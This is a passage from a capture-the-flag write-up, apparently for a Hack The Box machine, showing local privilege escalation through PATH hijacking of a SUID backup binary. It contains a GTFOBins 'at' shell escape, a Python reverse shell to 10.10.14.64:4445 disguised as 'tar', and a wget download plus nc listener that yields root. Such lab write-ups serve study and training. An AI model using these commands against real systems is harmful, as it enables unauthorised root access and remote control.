   264927     16 -rwsr-xr-x   1 root     root          14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
   266611     24 -rwsr-xr-x   1 root     root          22840 May 26  2021 /usr/lib/policykit-1/polkit-agent-helper-1
"
```

Looking for interesting files, `pandora_backup` is quite interesting.

### Executing Pandora_backup

```bash
./pandora_backup

"
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
Backup failed!
Check your permissions!
"
```

It’s failing due to low privilege

[at
            
            |
            
            GTFOBins](https://gtfobins.github.io/gtfobins/at/#shell)

```bash
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null

"
warning: commands will be executed using /bin/sh
job 1 at Thu Oct 26 11:12:00 2023
/bin/sh: 0: can't access tty; job control turned off
"
```

### Searching for interesting strings inside pandora_backup

```bash
strings pandora_backup 

`
/lib64/ld-linux-x86-64.so.2
puts
setreuid
system
getuid
geteuid
__cxa_finalize
__libc_start_main
libc.so.6
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
Backup failed!
Check your permissions!
Backup successful!
Terminating program!
;*3$"
...
`
```

Based on the strings inside the pandora_backup program, the code `tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*` compressing the files inside `/var/www/pandora/pandora_console/`.

However, we can see that the program `tar` is not specified in absolute path, hence it can be abused through PATH manipulation.

### Naming Python Reverse Shell as tar

[Online - Reverse Shell Generator](https://www.revshells.com/)

```bash
vi tar

`
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.64",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
`
```

### Download Reverse Shell named tar and Modify PATH

```bash
cd /tmp
wget http://10.10.14.64:8000/tar
chmod +x tar
export PATH=/tmp:$PATH
cd /usr/bin
./pandora_backup

"
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client

"
```

### Listen to Reverse Shell and Exploit

```bash
nc -lvnp 4445

"
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4445
Ncat: Listening on 0.0.0.0:4445
Ncat: Connection from 10.129.75.34.
Ncat: Connection from 10.129.75.34:34300.
# whoami
whoami
root
"
```

# Reference

- [https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp)
- [https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/](https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/)
- [https://gtfobins.github.io/gtfobins/at/#shell](https://gtfobins.github.io/gtfobins/at/#shell)
- [https://www.hackthebox.com/api/v4/machine/writeup/423](https://www.hackthebox.com/api/v4/machine/writeup/423)